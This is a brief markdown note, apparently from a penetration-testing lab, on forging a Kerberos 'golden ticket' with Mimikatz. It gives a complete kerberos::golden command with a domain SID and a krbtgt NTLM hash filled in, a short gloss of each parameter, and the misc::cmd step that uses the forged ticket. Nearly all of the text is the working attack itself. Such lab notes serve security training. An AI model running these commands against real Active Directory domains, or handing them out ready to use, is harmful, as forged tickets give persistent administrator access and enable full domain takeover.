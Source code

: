 ## CREATE THE GOLDEN TICKET
```cmd
Kerberos::golden /user:Administrator /domain:CONTROLLER.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
```

- Administrator : The username
- domain : The domain controller name
- SID : the second part of the first line from the output
- krbtgt : the primary NTLM hash
- id : 500 -> idk what is that

## USE THE GOLDEN TICKET
```cmd 
misc::cmd
```